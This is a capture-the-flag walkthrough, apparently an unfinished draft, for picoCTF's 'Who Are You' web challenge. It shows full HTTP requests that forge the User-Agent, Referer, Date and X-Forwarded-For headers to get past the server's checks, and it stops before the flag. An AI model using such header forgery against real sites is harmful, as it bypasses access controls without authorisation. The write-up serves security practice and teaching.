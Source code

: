 # Who Are You

## Description

Let me in. Let me iiiiiiinnnnnnnnnnnnnnnnnnnn http://mercury.picoctf.net:36622/

## Hints

It ain't much, but it's an RFC https://tools.ietf.org/html/rfc2616

## Walkthrough

The homepage for this CTF tells us that only people who use the official "Pico Browser" can use the website.

> Only people who use the official PicoBrowser are allowed on this site!

We can spoof our browser by modifying the [User-Agent header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/User-Agent "Mozilla developer pages on User-Agent header"), which is the HTTP header sent by our browser when making requests to servers. This header can be changed by using a browser extension such as [User-Agent Switcher and Manager](https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/ "Firefox extension for modifying User-Agent header"), but we're better off using an application like BurpSuite for this challenge.

After we intercept a request to the homepage of the CTF we can edit the User-Agent header from our browser to "PicoBrowser", like so:

```http
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Priority: u=0, i
```

Once we send the request, the homepage message will change to:

> I don&#39;t trust users visiting from another site.

We can add the ["Referer" header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Referer "Mozilla Developer pages on Referer header") to our next request to trick the server into thinking the request originated from the webpage itself. To do this, we'll set the "Referer" header value to "mercury.picoctf.net:36622".

```http
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Referer: mercury.picoctf.net:36622
Priority: u=0, i
```

Once we've sent the above request, we'll see the following message displayed on the homepage. 

> Sorry, this site only worked in 2018.


In our next HTTP request we'll add the ["Date" header](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Date "Mozilla Developer pages for Date header") and set the date for October 15th, 2018. 

```http
GET / HTTP/1.1
Host: mercury.picoctf.net:36622
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Referer: mercury.picoctf.net:36622
Date: Tue, 15 Oct 2018 14:30:00 GMT
Priority: u=0, i
```

After we've sent our request to the server with a modified Date header, we'll see the following message on the homepage.

> This website is only for people from Sweden.

https://lite.ip2location.com/ip-address-ranges-by-country

https://lite.ip2location.com/sweden-ip-address-ranges

102.177.146.0


https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For

```
GET / HTTP/1.1
Host: mercury.picoctf.net:39114
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: mercury.picoctf.net:39114
Date: Tue, 15 Oct 2018 14:30:00 GMT
Upgrade-Insecure-Requests: 1
X-Forwarded-For: 102.177.146.0
DNT: 1
Sec-GPC: 1
Priority: u=0, i


```

```
You&#39;re in Sweden but you don&#39;t speak Swedish?
```
